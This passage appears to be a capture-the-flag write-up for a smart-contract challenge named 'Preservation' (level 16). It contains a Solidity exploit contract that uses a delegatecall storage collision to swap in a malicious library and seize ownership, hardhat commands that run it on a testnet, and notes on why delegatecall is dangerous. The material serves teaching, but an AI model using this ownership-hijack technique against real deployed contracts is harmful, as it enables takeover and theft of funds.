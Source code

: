 ```solidity
    MaliciousLibrary public maliciousLibrary;
    address public owner;
    
    constructor(address _preservationAddress) {
        preservation = IPreservation(_preservationAddress);
        maliciousLibrary = new MaliciousLibrary();
        owner = msg.sender;
    }
    
    function exploit() external {
        require(msg.sender == owner, "Only owner can execute the exploit");
        
        // Replace the library address with our malicious library
        preservation.setFirstTime(uint256(uint160(address(maliciousLibrary))));
        
        // Now call setFirstTime again to take ownership
        preservation.setFirstTime(uint256(uint160(address(this))));
    }
    
    function checkSuccess() external view returns (bool) {
        return preservation.owner() == address(this);
    }
}
```

### Execution Steps

1. **Deploy the Preservation Contract and Libraries**:
   ```shell
   npx hardhat run scripts/level-16-preservation/deploy-preservation-instance.ts --network sepolia
   ```

2. **Deploy the PreservationExploit Contract**:
   ```shell
   PRESERVATION_INSTANCE_ADDRESS=0xYourPreservationAddress npx hardhat run scripts/level-16-preservation/deploy-preservation-solution.ts --network sepolia
   ```

3. **Execute the Exploit**:
   ```shell
   PRESERVATION_INSTANCE_ADDRESS=0xYourPreservationAddress PRESERVATION_SOLUTION_ADDRESS=0xYourExploitAddress npx hardhat run scripts/level-16-preservation/execute-preservation-exploit.ts --network sepolia
   ```

## Key Insights

1. **Storage Layout and Delegatecall**: When using `delegatecall`, the storage layout of both contracts must match exactly to prevent unexpected behaviors. The called contract's code operates on the caller's storage.

2. **Delegatecall Dangers**: `delegatecall` is a powerful but dangerous feature in Ethereum. It allows one contract to execute another contract's code in its own context, which can lead to severe vulnerabilities if not used carefully.
